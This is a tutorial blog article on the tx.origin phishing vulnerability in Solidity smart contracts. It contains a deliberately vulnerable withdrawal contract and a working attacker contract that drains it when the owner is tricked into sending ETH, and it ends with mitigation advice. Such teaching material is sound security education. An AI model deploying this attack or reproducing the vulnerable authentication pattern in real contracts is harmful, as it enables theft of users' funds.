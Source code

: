 # Solidity Attack Vectors: #3 - Phishing With "tx.origin"

Welcome to the third article in my series on Solidity Attack Vectors. In my previous article, I discussed how contracts with zero code size can be used as an attack vector and mentioned the use of "tx.origin" in preventing such attacks. In this article, I will introduce "tx.origin" and how it can also be used maliciously. Let's get started!

## What is "tx.origin" and where does it come from?

First, let's discuss the origin of "tx.origin" and what it is. In Solidity, there are different types of variables, including state variables (defined outside a function), local variables (defined inside a function), and global variables, which are native to Solidity and the blockchain (e.g., Ethereum, Polygon). Some examples of global variables include "msg.sender", "msg.data", "block.timestamp", and "tx.origin".

Now that we know where "tx.origin" comes from, what does it mean or do? "tx.origin" is a global variable in Solidity that holds the address of the EOA (externally owned account, or simply the user's wallet address) from which a transaction originated. Every transaction in the Ethereum blockchain originates from an EOA, no matter where the transaction ends, but one transaction can lead to further transactions.

For instance, an EOA owned by "Jane" may send a transaction to contract "A", which then makes another transaction to contract "B". To contract "B", contract "A" is the "msg.sender", but "Jane" is the "tx.origin", since the first transaction that led to the second was initiated by her. This is applicable to all transactions, no matter the transaction call chain depth.

## How "tx.origin" is used as an attack vector in solidity

It is similar to "msg.sender", which holds only the address of the current transaction initiator, which is commonly used in smart contracts to determine who is calling the contract's functions.

"Tx.origin" can be useful in certain cases, but it can also be a vulnerability for attacks.

Consider the following code:

```solidity
pragma solidity ^0.8.0;

contract TxOriginVulnerable {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    fallback() external payable {}

    //...................other lines of code

    //withdraw all ether from the contract
     function Withdraw() public {
        require(tx.origin == owner, "Not owner");
        msg.sender.call{value: address(this).balance}("");
    }
}
```

Imagine that the above contract has millions of ETH inside and we want only the owner of the contract to be able to withdraw the ETH. We are careful to check that the person calling the "Withdraw" function is the "owner" and no one else. However, we also decide to use "tx.origin" for this, forgetting that it represents the address from which the transaction originated.

Now, "John" is a malicious actor who is monitoring our contract. Having seen how we used "tx.origin" for authentication, "John" decides to write a malicious contract to exploit our contract. Here is the code of the malicious contract:

```solidity
pragma solidity ^0.8.0;
contract txOriginAttacker {
    address public attacker;
    TxOriginVulnerable txOriginVulnerable;

    constructor(TxOriginVulnerable _txOriginVulnerable) {
        txOriginVulnerable = TxOriginVulnerable(_txOriginVulnerable);
        attacker = msg.sender;
    }

    fallback() external payable {
        Attack();
    }

    //...................other lines of code

    //withdraw all ether from the contract
    function Attack() internal {
        txOriginVulnerable.Withdraw();
    }

    function withdrawStolenFunds() public {
        payable(attacker).transfer(address(this).balance);
    }
}
```

"John" has created a malicious contract that calls the "Withdraw" function of the vulnerable contract. He tricks "Jane" into sending some ETH to the malicious contract, which then triggers the "fallback" function of the malicious contract. This function calls its "Attack" function. Since the malicious contract's "Attack" function is calling the "Withdraw" function of the vulnerable contract, "msg.sender" in the vulnerable contract will be the address of the malicious contract. However, "tx.origin" in the vulnerable contract will still be the address of the user who initiated the first transaction (sending ETH), in this case "Jane", the owner of the vulnerable contract.

As a result, the "require" statement in the "Withdraw" function of the vulnerable contract will be satisfied, since "tx.origin" is equal to "owner". The malicious contract will be able to successfully call the "Withdraw" function and transfer all the ETH in the vulnerable contract to its own account, effectively stealing all the funds.

## How to prevent this?

This is just one example of how "tx.origin" can be used as an attack vector in Solidity. It is important to be aware of this vulnerability and use other methods of authentication, such as "msg.sender", when necessary. Always consider the potential security risks when using global variables in your contracts.

See you in the next article!
